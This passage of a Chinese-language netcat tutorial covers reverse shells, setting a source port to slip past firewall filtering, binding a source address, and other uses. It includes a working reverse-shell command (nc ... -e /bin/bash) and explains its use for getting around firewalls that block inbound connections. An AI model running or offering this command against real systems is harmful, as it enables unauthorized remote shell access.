 在客户端，简单地告诉netcat在连接完成后，执行shell。
客户端
```
$nc 172.31.100.7 1567 -e /bin/bash
```
现在，什么是反向shell的特别之处呢

反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。

## 10. 指定源端口

假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。

服务器端
```
$nc -l 1567
```

客户端
```
$nc 172.31.100.7 1567 -p 25
```
使用1024以内的端口需要root权限。

该命令将在客户端开启25端口用于通讯，否则将使用随机端口。
 
## 11. 指定源地址

假设你的机器有多个地址，希望明确指定使用哪个地址用于外部数据通讯。我们可以在netcat中使用-s选项指定ip地址。

服务器端
```
$nc -u -l 1567 < file.txt
```

客户端
```
$nc -u 172.31.100.7 1567 -s 172.31.100.5 > file.txt
```
该命令将绑定地址172.31.100.5。

这仅仅是使用netcat的一些示例。

其它用途有：

- 使用-t选项模拟Telnet客户端，
- HTTP客户端用于下载文件，
- 连接到邮件服务器，使用SMTP协议检查邮件，
- 使用ffmpeg截取屏幕并通过流式传输分享，等等。其它更多用途。

简单来说，只要你了解协议就可以使用netcat作为网络通讯媒介，实现各种客户端。


**参考文档**

[Netcat手册](https://linux.die.net/man/1/nc)

![Visitor Count](https://profile-counter.glitch.me/liuyibao/count.svg)
